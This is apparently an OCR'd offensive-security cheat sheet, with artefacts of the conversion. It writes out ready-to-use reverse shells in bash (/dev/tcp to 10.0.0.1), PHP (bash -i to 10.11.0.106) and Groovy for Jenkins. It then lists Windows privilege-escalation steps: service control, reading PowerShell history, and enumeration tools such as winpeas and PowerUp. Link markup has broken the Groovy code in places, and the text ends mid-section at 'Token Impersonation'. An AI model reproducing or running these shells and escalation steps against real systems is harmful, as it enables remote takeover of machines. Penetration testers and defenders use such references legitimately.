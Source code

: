```bash
exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do $line 2>&5 >&5; done
```

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.11.0.106/443 0>&1'");?>
```

**#For powershell use the encrypted tool that's in Tools folder**

💡 While dealing with PHP reverse shell use: [https://github.com/ivan-sincek/php-reverse-](https://github.com/ivan-sincek/php-reverse-)

#### Groovy reverse-shell

For Jenkins

```groovy
String host="[localhost](http://localhost)";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write([pi.read](http://pi.read)());while(pe.available()>0)so.write([pe.read](http://pe.read)());while(si.available()>0)po.write([si.read](http://si.read)());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Windows Privilege Escalation

#### Basic

```powershell
#Starting, Restarting and Stopping services in Powershell
Start-Service SERVICE_NAME
Stop-Service SERVICE_NAME
Restart-Service SERVICE_NAME

#Powershell History
type C:\Users\USERNAME\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

#### Automated Scripts

```
winpeas.exe
winpeas.bat
[Jaws-enum.ps](http://Jaws-enum.ps)1
[powerup.ps](http://powerup.ps)1
[PrivescCheck.ps](http://PrivescCheck.ps)1
```

#### Token Impersonation

* Command to check
